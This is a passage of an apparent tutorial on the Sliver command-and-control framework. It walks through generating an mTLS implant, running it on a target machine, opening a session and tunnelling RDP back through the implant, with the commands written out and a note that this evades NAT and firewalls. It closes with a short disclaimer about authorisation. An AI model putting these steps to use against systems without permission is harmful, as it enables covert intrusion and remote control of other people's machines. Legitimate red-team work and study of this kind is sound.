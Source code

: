 ### **2. Generate a Sliver Implant**
   - **Create the Implant:**
     - Generate a new implant (payload) that will be executed on the target system.
     - Use a command like:
       ```bash
       generate --mtls --save /path/to/save/implant.exe
       ```
     - Options like `--mtls` specify the type of communication (e.g., mutual TLS).

### **3. Deploy the Implant on the Target System**
   - **Deploy the Payload:**
     - Transfer the generated implant to the target machine.
     - Execute the implant on the target machine to establish a connection back to the Sliver server.

### **4. Establish a Tunnel in Sliver**
   - **Start a Session:**
     - Once the implant connects back, you will see it in the `sessions` list.
     - Interact with the session by using:
       ```bash
       sessions
       use <session_id>
       ```
   - **Create a Tunnel:**
     - Set up a tunnel that forwards traffic to your target’s RDP port.
     - Use the `tunnel` command:
       ```bash
       tunnel add --local 127.0.0.1:3389 --remote 127.0.0.1:3389
       ```
     - This command sets up a tunnel where traffic on your local machine’s port `3389` (RDP) is forwarded to the target’s RDP port.

### **5. Proxy the RDP Session**
   - **Connect via RDP:**
     - Open your RDP client on your local machine.
     - Connect to `127.0.0.1:3389`, which will now proxy the connection to the target machine's RDP service via the tunnel you established.

### **6. Monitor and Manage the Tunnel**
   - **View Tunnels:**
     - Use `tunnel list` to view active tunnels.
   - **Remove Tunnel:**
     - If you need to remove a tunnel, use:
       ```bash
       tunnel del <tunnel_id>
       ```

### **Important Considerations:**
   - **Firewall/NAT Evasion:** Reverse tunneling (via the implant) helps bypass NAT/firewalls, allowing you to connect to services like RDP even if the target is behind a firewall or NAT.
   - **Security Measures:** Ensure you have the appropriate authorization to perform these actions, as tunneling into a system without permission is illegal and unethical.
